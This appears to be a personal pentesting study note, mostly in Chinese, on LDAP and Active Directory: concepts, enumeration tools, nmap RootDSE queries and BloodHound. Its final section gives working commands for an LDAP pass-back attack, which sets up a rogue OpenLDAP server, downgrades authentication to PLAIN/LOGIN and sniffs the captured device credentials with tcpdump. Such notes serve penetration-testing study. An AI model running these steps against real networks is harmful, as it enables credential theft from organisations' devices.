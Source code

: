 ```yaml
---
tags:
  - IT/网络
  - 渗透/内网
  - 渗透/信息收集
---
```


## 概念

Lightweight Directory Access Protocol，轻量级目录访问协议。

LDAP具有简单的树结构，不能像数据库那样具有复杂的结构。由于负载较轻，适合管理系统账户。

- LDAP 身份验证是与 AD 集成的第三方（非 Microsoft）应用程序的一种流行机制。
- 用来访问/操作AD内的对象的协议。AD用[[LDAP#LDAP命名路径|LDAP命名路径]]来表示对象在AD内的位置索引。

1. BindRequest (认证)
	- Bind就是LDAP登陆的意思——[[LDAP#Bind DN|BindDN]]
2. SearchRequest (LDAP搜索)




## 认证流程

![[eb4c5b6b4d3e747145cc635e08bb1768.png]]

就是把用户数据放在LDAP服务器上，通过LDAP服务器上的数据对用户进行认证处理。

实现原理之一：对每一个登陆请求，会发送本地的用户、密码给LDAP服务器，然后在LDAP服务器上进行匹配，然后判断是否可以通过认证。



## LDAP命名路径

LDAP树：  
![[Pasted image 20240816124653.png]]

- sn：surname（姓氏）

### DN（distinguished Name）：标识名称，LDAP完整路径。

DN 有三个属性，分别是：

- DC (Domain Component)：域名组件。DNS域名的每个元素。如“DC=.com”“DC=.panasonic”
- OU (Organizational Unit)：组织单位，最多4级。定义组的策略。是一种容器，理解为文件夹，可以分组、管理其他对象。

- 用于组织和分组条目，以便更好地管理目录。
- 通常用于创建层次结构，如 OU=Users、OU=Groups。
- 通常不直接用于标识具体的实体，而是用于容纳 CN。

- CN (Common Name)：通用名称，即对象的名称。一般为用户名（可以中文）或计算机名

- 通常用于标识具体的实体，如用户、计算机、服务等。
- 在特定 OU 内，CN 应该是唯一的。

#### Bind DN

LDAP的登陆用户。

#### Base DN

LDAPサービスへログインした後、どの OU 配下の情報を扱うかを示すものです。`suffix`とも呼ばれます。

#### RDN

是DN中每一个用逗号分隔的表达式。

---
## 搜索工具

- [[ldapsearch]]
- [[powershell#Get-ADUser]]
- dsquery
- LDP.exe：普通域主机默认没有，需要安装，不过这是微软的工具。在cmd中输入 `ldp` 启动，和 `AD Explorer` 类似
- DirectorySearcher 对象（ #OSCP ）：`[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`
- [pyldapsearch](https://github.com/fortalice/pyldapsearch)
- [ldeep](https://github.com/franc-pentest/ldeep)

> [https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)

## 用BloodHound分析结果

1. BloodHound compatible な形式にデータを変換([BOFHound](https://github.com/fortalice/bofhound))
2. BloodHoundにimport
3. BloodHoundで分析：[bloodhound-gui](https://bloodhound.readthedocs.io/en/latest/data-analysis/bloodhound-gui.html)

---
## RootDSE

> The top of the directory information tree (DIT) on each DSA is the root of the tree.

在每个DSA的DIT的顶端，都会有**一个特殊的条目称为Root DSE**。这个条目包含与DSA有关的特定信息，如支持的LDAP版本、扩展操作、域名信息（`namingContexts`属性）等。

- DSE: DSA-specific entry
- DSA：**Directory System Agent**，它是LDAP目录服务的一个核心组件，负责处理LDAP客户端的请求，并管理目录信息树（DIT）中的数据。

### Search with [[nmap]]

> we should check the nmap output for the [RootDSE](https://www.ibm.com/docs/en/zos/3.1.0?topic=considerations-root-dse) and any potential hostname.

```bash
sudo nmap -Pn --script ldap-rootdse.nse $target_ip
```

### Search with [[ldapsearch]]

![[ldapsearch#RootDSE]]

---


## GC

![[Pasted image 20240816125026.png]]

用途：很多时候，用户或应用程序不知道目标对象的 DN 或哪个分区可能包含该对象。全局编录 (GC) 允许用户和应用程序在给定目标对象的一个或多个属性的情况下在 Active Directory 域树中查找对象。






## 安装（Win）

- AD DS的开关命令：`dcpromo`。转换该服务器的角色（域控or成员）
- DC会将自己扮演的角色注册到DNS，以便让其他PC能够通过DNS找到这台DC





## 攻击手法

### LDAP Pass-back Attacks

在如打印机等设备的配置界面，通常预留了凭据——但是密码不可见时，将认证传到我们自己的LDAP服务器。

#### Hosting a Rogue LDAP Server 托管恶意 LDAP 服务器

##### 安装OpenLDAP

`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`

##### 安装完后重新配置

`sudo dpkg-reconfigure -p low slapd`

#### 降级验证机制：PLAIN 和 LOGIN

##### 创建配置文件

```
# cat olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

##### 应用配置

`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

##### 验证配置

```
└─$ ldapsearch -LLL -x -H ldap:// -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: LOGIN
supportedSASLMechanisms: PLAIN
```

#### 捕获LDAP验证

`$ sudo tcpdump -SX -i breachad tcp port 389`